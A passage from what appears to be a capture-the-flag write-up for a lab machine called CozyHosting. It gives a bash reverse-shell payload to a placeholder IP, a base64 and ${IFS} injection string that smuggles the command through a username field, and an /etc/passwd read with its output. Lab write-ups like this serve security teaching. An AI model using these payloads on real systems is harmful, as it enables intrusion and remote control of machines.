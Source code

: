 ![Blind OS Injection | 600](./screenshots/cozyhosting_blind_os_injection.png)  

Now we can start a listener on port 443 and get a reverse shell. We can use this payload: `/bin/bash -c 'bash -i >& /dev/tcp/<your_ip>/443 0>&1'` which has special characters but we can bypass it with base64 encoding.
- `username=2>/dev/null;echo${IFS}<base64_encoded_payload>|base64${IFS}-d|/bin/bash;#`
- you might have to URL encode your payload.  
  
![Foothold | 600](./screenshots/cozyhosting_foothold.png)  

## Server Enumeration

First lets enumerate other users on this machine that have a shell.  
`cat /etc/passwd | grep /bin/bash`  

```
root:x:0:0:root:/root:/bin/bash
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
```
